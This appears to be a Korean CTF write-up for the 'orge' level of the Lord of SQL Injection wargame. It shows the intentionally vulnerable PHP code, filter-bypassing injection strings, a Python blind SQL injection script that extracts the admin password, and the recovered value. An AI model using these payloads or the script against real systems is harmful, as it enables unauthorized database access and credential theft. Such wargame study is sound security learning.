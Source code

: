 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - orge 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `orge` 이다.  

이 전 문제인 `darkelf`와 Blind SQL Injection 이었던 `orc` 문제가 섞인 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_orge where id='guest' and pw=''
-------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

`or`와 `and` 문자를 사용할 수 없어 `or` 대신에 `||`, `and` 대신에 `&&`를 사용해야 한다.  

또한 입력한 `pw`와 디비에 저장된 `pw`의 값이 같아야 하기 때문에 `Blind SQL Injection`으로 문제를 풀어야 한다.  

그런데 첫 번째 쿼리와 두 번째 쿼리가 살짝 다르다.  

```php
$query1 = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"

$query2 = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"
```

첫 번째 쿼리에서는 `id='guest'`로 되어 있고 두 번째 쿼리에서는 `id='admin'`으로 되어 있다.  

그런데 문제를 풀기 위한 조건은 `admin의 정확한 pw`를 알아내야 하는 것이므로, 첫 번째 쿼리를 통해 `admin`의 `pw`를 알아내고, 두 번째 쿼리를 통해 문제를 풀면 된다.  

`admin`의 `pw`를 알아내기 위한 쿼리 스트링은 다음과 같다.  

```
?pw=1' || id='admin' && length(pw)=1#
```

그런데 `&&`와 `#`은 그냥 입력하면 안되고 `URL Encoding`을 해 넘겨주어야 한다.  

즉, 수정하면 다음과 같다.  

```
?pw=1' || id='admin' %26%26 length(pw)=1%23
```

위의 쿼리 스트링을 토대로 `orc` 문제를 참고 해 아래와 같이 python 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/orge_bad2f25db233a7542be75844e314e9f3.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' || id='admin' %26%26 length(pw)=" + str(i) + "%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' || id='admin' %26%26 substr(pw, " + str(j) + ", 1)='" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

실행 시킨 결과 다음과 같이 pw를 찾을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 7
[+] Found 2 : 7B
[+] Found 3 : 7B7
[+] Found 4 : 7B75
[+] Found 5 : 7B751
[+] Found 6 : 7B751A
[+] Found 7 : 7B751AE
[+] Found 8 : 7B751AEC
[+] Found password :  7B751AEC
[+] End
```

이번에도 역시 `7B751AEC`에서 알파벳을 소문자로 바꿔주어야 문제가 풀렸다.  

```
?pw=7b751aec
```

위와 같이 입력하면 문제를 풀 수 있다.  

```php
---------------------------------------------------------------------
query : select id from prob_orge where id='guest' and pw='7b751aec'
---------------------------------------------------------------------

ORGE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

`ORGE Clear!!`